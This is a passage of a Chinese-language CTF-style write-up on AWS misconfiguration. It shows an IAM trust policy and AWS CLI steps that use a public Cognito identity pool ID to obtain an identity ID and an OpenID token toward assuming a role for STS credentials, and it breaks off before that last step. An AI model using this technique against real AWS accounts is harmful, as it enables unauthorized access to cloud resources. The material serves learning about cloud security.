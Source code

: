 ```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Federated": "cognito-identity.amazonaws.com"
            },
            "Action": "sts:AssumeRoleWithWebIdentity",
            "Condition": {
                "StringEquals": {
                    "cognito-identity.amazonaws.com:aud": "us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b"
                }
            }
        }
    ]
}
```

可以看到，这题其实是上一道题的延伸，身份池 ID 都是一样的。

在 Policy 的 Action 中有个利用 AssumeRoleWithWebIdentity 生成 STS 的行为。

通过查看官方文档可以知道，想利用 AssumeRoleWithWebIdentity 生成 STS 需要知道三个东西。

```bash
> aws sts assume-role-with-web-identity help

--role-arn <value>
--role-session-name <value>
--web-identity-token <value>
```

其中 role-arn 题目已经给我们了，role-session-name 我们自己随便起一个就行，那么最后剩下的就是 web-identity-token 了。

根据官方文档和询问 ChatGPT，web-identity-token 可以通过身份池 ID 去获得，而且生成 Token 的相关接口都是公开的，可以被直接调用，不需要授权。

要获取 Token，首先我们需要用这个身份池 ID 获取到它的身份 ID。

```bash
> aws cognito-identity get-id --identity-pool-id us-east-1:b73cb2d2-0d00-4e77-8e80-f99d9c13da3b

{
    "IdentityId": "us-east-1:453cea83-a2c0-4b64-a7ff-9dc3783701db"
}
```

然后使用这个身份 ID 获取 Token，这个接口也是公共接口，不需要任何权限。

```bash
> aws cognito-identity get-open-id-token --identity-id us-east-1:453cea83-a2c0-4b64-a7ff-9dc3783701db

{
    "IdentityId": "us-east-1:453cea83-a2c0-4b64-a7ff-9dc3783701db",
    "Token": "eyJraWQiOiJ1cy1lYXN0Lxxxx..."
}
```
